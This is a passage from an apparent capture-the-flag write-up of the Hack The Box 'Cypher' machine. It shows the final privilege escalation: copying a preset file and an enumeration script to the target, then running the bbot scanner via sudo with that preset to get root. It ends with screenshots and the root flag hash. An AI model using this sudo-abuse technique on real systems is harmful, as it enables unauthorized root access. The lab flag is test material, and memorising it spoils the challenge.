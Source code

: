 Definitely .....

git cloned the repo with two files and scp'ed them to the box:

    scp preset.yml systeminfo_enum.py graphasm@cypher.htb:
    graphasm@cypher.htb's password: 
    preset.yml                              100%   83     1.0KB/s   00:00    
    systeminfo_enum.py                      100%  523     6.1KB/s   00:00   

\`sudo /usr/local/bin/bbot -t no.com -p /home/graphasm/preset.yml --event-types ROOT

Hooyah
<img src="Cypher-media/f783229a806b94f471c75c6c0b0947145742432e.png"
class="wikilink" alt="Pastedimage20250612123812.png" />

Flag under root
<img src="Cypher-media/4dde63c04923571e804722b99e9951ce86f52376.png"
class="wikilink" alt="Pastedimage20250612124049.png" />781ffa938d9654d043dc5b350fa945da
